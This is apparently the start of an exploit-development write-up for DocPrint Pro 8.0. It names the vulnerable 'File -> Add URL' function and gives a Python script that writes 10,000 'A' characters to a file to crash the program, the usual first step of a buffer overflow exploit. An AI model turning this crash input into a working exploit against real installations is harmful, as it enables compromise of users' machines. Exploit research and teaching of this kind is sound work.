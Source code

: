 # DocPrint Pro 8.0

Downloaded from: https://www.exploit-db.com/apps/560e231d212fdaef8e52471f94a5f014-docprint_pro_setup.exe

Vulnerable function: File -> Add URL

## Initial Crash
```py
#!/usr/bin/python 

file = "file.txt"
f = open(file , "w")

CRASH_LEN = 10000  # change me

junk = "A" * CRASH_LEN
f.write(junk)
f.close()
```
